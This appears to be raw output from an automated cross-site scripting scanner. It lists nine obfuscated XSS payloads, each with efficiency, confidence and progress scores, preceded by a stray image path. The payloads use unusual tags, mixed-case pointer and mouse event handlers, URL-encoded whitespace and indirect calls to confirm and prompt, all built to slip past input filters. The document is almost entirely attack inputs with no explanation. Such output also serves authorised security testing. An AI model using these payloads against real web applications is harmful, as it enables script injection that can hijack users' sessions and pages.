 ------------------------------------------------------------
 Payload: <d3V%09ONMOuSEover%0a=%0a(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 224/1536
 
------------------------------------------------------------
 Payload: <d3V%09ONpOinteRenteR%0d=%0d[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 225/1536
 
------------------------------------------------------------
 Payload: <A/+/ONPOinterENteR%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 226/1536
 
------------------------------------------------------------
 Payload: <D3V%0aoNPointeREnTEr%0d=%0da=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 227/1536
 
------------------------------------------------------------
 Payload: <HTML%0aonpoinTErenTEr+=+confirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 228/1536
 
------------------------------------------------------------
 Payload: <D3v%0dONPoiNtEREnTer+=+confirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 229/1536
 
------------------------------------------------------------
 Payload: <a/+/oNMOuSEOVer%0a=%0aconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 230/1536
 
------------------------------------------------------------
 Payload: <deTaILS%09ONPoiNtErENTer+=+confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 231/1536
 
------------------------------------------------------------
 Payload: <htML%0dOnPOInTERenTeR%0a=%0a(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 232/1536
 